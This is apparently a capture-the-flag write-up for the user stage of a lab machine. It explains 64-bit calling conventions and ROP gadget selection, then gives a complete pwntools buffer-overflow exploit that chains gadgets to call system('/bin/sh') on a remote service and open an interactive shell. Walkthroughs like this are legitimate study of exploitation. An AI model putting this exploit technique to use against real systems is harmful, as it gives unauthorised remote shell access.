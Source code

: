 ![](./logo.png)

# USER

Looking at the page source we can seen the message

```html
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

The binary is a `64-bit` application. Therefore, consideration needs to be made for the exploit.

Instead of passing arguments on the stack like a `32-bit` application, `64-bit` applications use registers in the 
order listed below: 
```
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+
```

### Working exploit

The original call to `system` loads the value of `/usr/bin/uptime` into `rdi`.

In the method `test()` has some interesting gadgets:

```
   0x0000000000401152 <+0>:	push   rbp
   0x0000000000401153 <+1>:	mov    rbp,rsp
   0x0000000000401156 <+4>:	mov    rdi,rsp
   0x0000000000401159 <+7>:	jmp    r13
```

The first two instructions are generic instructions to setup the stack. The one we need is the `mov rdi, rsp`, this can let us load `/bin/sh` into the first instruction register. This will work because `$rsp` will point to the top of the stack. This is where we will place `/bin/sh\x00`.

However, we are followed by a `jmp 13`, this means we need to place the address of `system` into this address to complete the payload. We can achieve this with the gadget `pop r13 ; pop r14 ; pop r15 ; ret`.

Below is our completed exploit:

```python
from pwn import *
import struct
import sys
import re

BINARY = './myapp'
BUFFER_LEN = 120

# io = process(BINARY)
io = remote("10.10.10.147", 1337)
# io = gdb.debug('./myapp', 'b *main+77') # ret of main()

# Gadgets
pop_r13 = p64(0x401206)  # pop r13 ; pop r14 ; pop r15 ; ret
mov_rdi = p64(0x401156)  # mov rdi, rsp

# Addresses
system  = p64(0x40116e)
main    = p64(0x40115f)  # debug

# Data
bin_sh  = b"/bin/sh\x00"

payload =  b""
payload += b"A" * BUFFER_LEN

# pop r13 ; pop r14 ; pop r15 ; ret
payload += pop_r13
payload += system       # r13
payload += b"BBBBBBBB"  # r14
payload += b"BBBBBBBB"  # r15

# mov rdi, rsp
payload += mov_rdi
payload += bin_sh       # /bin/sh\x00

io.sendline(payload)
io.interactive()
```

Note the line:

```python
io = gdb.debug('./myapp', 'b *main+77') # ret of main()
```

Loads the program into `gdb` allows for debugging the `pwn-tools` exploit.

This lets us spawn a shell on the box and grab the `user.txt`!